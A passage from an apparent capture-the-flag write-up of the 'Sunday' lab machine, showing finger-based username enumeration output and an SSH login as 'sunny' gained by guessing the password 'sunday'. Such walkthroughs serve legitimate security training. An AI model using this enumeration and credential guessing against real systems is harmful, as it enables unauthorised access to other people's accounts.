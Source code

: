     la verne@10.10.10.76: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..
    line@10.10.10.76: Login       Name               TTY         Idle    When    Where..lp       Line Printer Admin                 < .  .  .  . >..
    message@10.10.10.76: Login       Name               TTY         Idle    When    Where..smmsp    SendMail Message Sub               < .  .  .  . >..
    miof mela@10.10.10.76: Login       Name               TTY         Idle    When    Where..miof                  ???..mela                  ???..
    sammy@10.10.10.76: sammy                 pts/2        <Sep 27 13:55> 10.10.16.26         ..
    sunny@10.10.10.76: sunny                 pts/3        <Apr 24 10:48> 10.10.14.4          ..
    sys@10.10.10.76: sys             ???                         < .  .  .  . >..
    zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
    ######## Scan completed at Thu Sep 27 17:44:39 2018 #########
    14 results.

    10163 queries in 337 seconds (30.2 queries / sec)



There's some garbage in there, but two interesting usernames:



    sammy@10.10.10.76: sammy                 pts/2        <Sep 27 13:55> 10.10.16.26         ..
    sunny@10.10.10.76: sunny                 pts/3        <Apr 24 10:48> 10.10.14.4          ..



Now we can compare the results of finger for a name that exists and one
that doesn't:



    root@kali# finger 0xdf@10.10.10.76
    Login       Name               TTY         Idle    When    Where
    0xdf                  ???
    root@kali# finger sunny@10.10.10.76
    Login       Name               TTY         Idle    When    Where
    sunny    sunny                 pts/2            Fri 11:06  10.10.14.5



## User Shell - SSH As sunny

With two known accounts, and ssh, it's worth guessing a few passwords. I
always try admin, root, the box name, and any defaults for the
application. Turns out sunny/sunday works:



    root@kali# ssh -p 22022 sunny@10.10.10.76
    Password:
    Last login: Thu May  3 15:25:35 2018 from 10.10.14.12
    Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
    sunny@sunday:~$ pwd
    /export/home/sunny
    sunny@sunday:~$ id
    uid=65535(sunny) gid=1(other) groups=1(other)
